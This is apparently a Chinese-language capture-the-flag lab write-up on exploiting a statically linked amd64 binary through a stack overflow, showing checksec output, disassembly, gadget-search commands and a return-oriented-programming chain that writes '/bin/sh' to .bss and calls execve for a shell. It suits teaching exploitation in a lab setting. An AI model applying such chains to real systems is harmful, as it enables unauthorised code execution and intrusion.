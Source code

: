 # lab 5 rop

題目告訴你是ROP了 因為它用static編 所以有很多gadget用
```=
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
咦 canary 有開 但是看 asm 卻沒有
```=
            0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      4883ec10       sub rsp, 0x10
|           0x00400b55      488d3dcc1509.  lea rdi, qword str.This_is_your_first_rop_challenge ; 0x492128 ; "This is your first rop challenge ;)"
|           0x00400b5c      e8cff60000     call sym.puts               ; int puts(const char *s)
|           0x00400b61      488b05388c2b.  mov rax, qword obj.stdout   ; obj._IO_stdout ; [0x6b97a0:8]=0x6b9360 obj._IO_2_1_stdout ; "`\x93k"
|           0x00400b68      4889c7         mov rdi, rax
|           0x00400b6b      e8d0f20000     call sym._IO_fflush
|           0x00400b70      488d45f0       lea rax, qword [local_10h]
|           0x00400b74      ba90000000     mov edx, 0x90               ; 144
|           0x00400b79      4889c6         mov rsi, rax
|           0x00400b7c      bf00000000     mov edi, 0
|           0x00400b81      e81a890400     call sym.__read             ; sym.__open+0x1c0
|           0x00400b86      b800000000     mov eax, 0
|           0x00400b8b      c9             leave
\           0x00400b8c      c3             ret

```
應該是某些函數有 main沒有

找 gadget

`ROPgadget --binary rop>list`

找 bss
`read -S rop|grep bss`

```=
[15] .tbss             NOBITS           00000000006b6140  000b6140
[26] .bss              NOBITS           00000000006bb2e0  000bb2d8
```


|%rax	|System call	|%rdi|	%rsi|	%rdx	|%r10|	%r8|	%r9|
|-----|-------------|----|------|-------|----|-----|-----|

|疊起來|註解|
|-|-|
|pop rdi ; ret;| 它會 pop bss的addr |
|bss的addr|
|pop rsi ; ret;|
|/bin/sh\x00|
|mov qword ptr [rdi],rsi ; ret;|把rsi的值放到 以rdi為位置 的值裡面|
|pop rsi ; ret;|設定參數|
|0x0|
|pop rdx ; ret;|設定參數|
|0x0|
|pop rax ; ret;|設定參數|
|0x3b|
|syscall ; ret;|

參數設定好 然後call execve
